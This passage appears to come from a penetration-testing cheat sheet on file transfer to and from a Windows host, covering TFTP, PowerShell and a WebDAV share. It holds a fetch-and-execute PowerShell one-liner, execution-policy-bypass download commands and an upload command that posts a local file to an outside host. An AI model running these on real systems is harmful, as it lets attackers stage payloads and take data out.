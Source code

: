 	```cmd
	tftp -i <ip_address> put <filename>
	```
	- to download a file (change `ip_address`,`<filename>`)
	```cmd
	tftp -i <ip_address> get <filename>
	```

-------------------------------
	

## PowerShell

- **Server** setup - any HTTP server method
- **Client** commands in `powershell.exe` to **download** a file
	- Way 1
		- `(new-object System.Net.WebClient).DownloadFile('//<ip_address>/<filename>','d:\data\<where_to_put_filename>')`
	- Way 2
		- `Invoke-WebRequest "https://<ip_address>/<filename>" -OutFile "C:\Windows\Temp\<where_to_put_filename>"`
	- Way 3
		- `IEX(New-Object Net.WebClient).downloadString('http://<address>/<filename>')`
- **Client** commands in `cmd.exe` to **download** a file
	- `powershell -exec bypass -c "(new-object System.Net.WebClient).DownloadFile('http://<ip_address>:<port>/<filename>','C:\Backup\download\<where_to_put_filename>')"`
- **Client** commands in `cmd.exe` to **upload** a file
	- `powershell -exec bypass -c "Invoke-RestMethod -Uri http://<ip_address>:<port> -Method Post -InFile C:\Users\Public\test.TXT"`


-------------------------------

## Webdav


- **Server** setup - any HTTP server method
	- On kali linux install wsgidav and cheroot
		- `pip install wsgidav cheroot`
	- Start the wsgidav on a restricted folder:
		- `mkdir -p /home/webdav_folder/share`
		- `wsgidav --host=0.0.0.0 --port=80 --root=/home/webdav_folder --auth anonymous`
- **Client** commands in `cmd.exe` to mount the folder (in order to **upload/download**)
	- `net use x: \\YOUR_IP_ADDRESS\share`
 
Reference: https://github.com/mar10/wsgidav


-------------------------------

## meterpeter


-------------------------------
